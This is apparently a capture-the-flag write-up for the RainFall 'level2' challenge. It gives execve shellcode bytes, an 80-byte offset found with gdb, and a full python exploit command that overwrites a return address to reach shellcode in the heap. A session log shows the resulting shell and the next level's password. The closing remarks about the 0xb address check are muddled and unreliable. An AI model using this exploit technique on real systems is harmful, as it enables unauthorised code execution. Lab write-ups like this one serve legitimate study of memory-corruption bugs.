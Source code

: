 📘 Buffer Overflow Exploit: Level 2
This level is a classic heap-based buffer overflow challenge — unlike Level 1, the program prevents us from returning to addresses on the stack. Instead, we need to leverage the heap for our shellcode execution.

⚠️ Vulnerability Summary
The program uses the unsafe gets() function, which does not check input size.

The input is copied into a buffer on the stack, but a check prevents the return address from pointing to the stack (addresses starting with 0xb).

However, the input is later duplicated with strdup(), which allocates memory on the heap.

This means the shellcode can be stored in the heap, and the return address overwritten to point there — bypassing the stack restriction.

🧠 Our Goal
We want to:

Write shellcode as input (stored in the heap by strdup()).

Overwrite the saved return address on the stack to point to the heap address returned by malloc.

When the function returns, it jumps to our shellcode in the heap, giving us a shell.

🔎 Understanding the Program Behavior
Using ltrace, the heap address returned by strdup() is always 0x0804a008.

The vulnerable function calls gets() to read input, then strdup() to duplicate it.

We want the return address to be 0x0804a008 so it jumps to our shellcode in the heap.

🛠 Finding the Offset to EIP (Return Address)
Using gdb and a pattern of known characters:

bash
Copier
Modifier
level2@RainFall:~$ gdb level2
(gdb) run
Starting program: ./level2
Aa0Aa1Aa2Aa3...Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info register eip
eip            0x37634136       0x37634136
The pattern shows the return address is overwritten starting at offset 80 bytes.

So we need to fill 80 bytes before the return address.

💡 Crafting the Payload
Our payload layout:

Part	Size (bytes)	Description
Shellcode	21	The actual shellcode (execve("/bin/sh"))
Padding ("A")	59	Filler bytes to reach the return address
Return Address	4	Overwrite with 0x0804a008 (heap shellcode addr)

Shellcode (21 bytes):

Copier
Modifier
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
🔥 Final Exploit Command
bash
Copier
Modifier
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit

cat /tmp/exploit - | ./level2
✅ What Happens?
The shellcode is stored in the heap at 0x0804a008.

The return address is overwritten to jump there.

When the function returns, execution jumps to our shellcode in the heap.

We get a shell as user level3.

From there, we can read the next password file.

Example session:
bash
Copier
Modifier
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
Summary
The program disallows returning to stack addresses to prevent stack shellcode.

We used the heap allocation from strdup() to store shellcode.

We overwrote the return address with the heap address to gain control.

Successfully escalated to level3.



This checks if a value (probably a return address) is in memory region 0xb0000000. Why?

0xb0000000 is often where heap or mmap memory lives (like strdup() or injected shellcode).

So this is like: “only run this code if the return address or a pointer is in a valid shellcode region.”


https://www.exploit-db.com/shellcodes/49768

level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*59 + "\x08\xa0\x04\x08"' > /tmp/exploit
level2@RainFall:~$ /tmp/exploit | ./level2 
level2@RainFall:~$ cat /tmp/exploit | ./level2 
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
level2@RainFall:~$ cat /tmp/exploit - | ./level2 
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass      
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
